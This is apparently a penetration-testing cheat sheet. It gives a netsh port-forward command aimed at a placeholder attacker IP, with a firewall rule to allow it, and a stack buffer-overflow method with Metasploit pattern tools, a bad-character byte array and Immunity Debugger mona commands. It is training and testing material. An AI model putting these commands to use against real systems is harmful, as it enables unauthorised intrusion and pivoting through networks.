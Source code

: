 // NETSH REMOTE PORT FORWARD
netsh interface portproxy add v4tov4 listenport=<LOCAL-PORT> connectport=<ATTACKER-PORT> connectaddress=<ATTACKER-IP>
netsh advfirewall firewall add rule name="rem fwd" protocol=TCP dir=in localport=<LOCAL PORT> action=allow

##########################################################################
##							BUFFER OVERFLOW								##
##########################################################################
// BUFFER OVERFLOW COMMANDS
msf-pattern_create -l 4000
msf-pattern_offset -l 4000 -q 39794338
!mona modules
!mona find -s “\xFF\xE4” –m “<MODULE>”

// BUFFER OVERFLOW METHODOLOGY
# https://www.thecybermentor.com/buffer-overflows-made-easy
Steps:
	1. Crash The Application: Send "A"*<NUMBER>
	2. Find EIP: Replace "A" w/ pattern_create.rb -l LENGTH
	3. Control ESP: !mona findmsp (@crashtime), pattern_offset.rb, !mona pattern_offset eip
	4. Identify Bad Characters
	5. Find JMP ESP
	6. Generate Shell Code
Exploit

// BADCHARS
badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

// IMMUNITY DEBUGGER MONA COMMANDS
!mona findmsp (find offset when app crashes)
!mona pattern_offset eip
!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin
!mona find -s "\xFF\xE4" -m <PROGRAM/DLL> 
!mona jmp -r esp
!mona jmp -r esp -cpb '\x00\x0a\x0d'
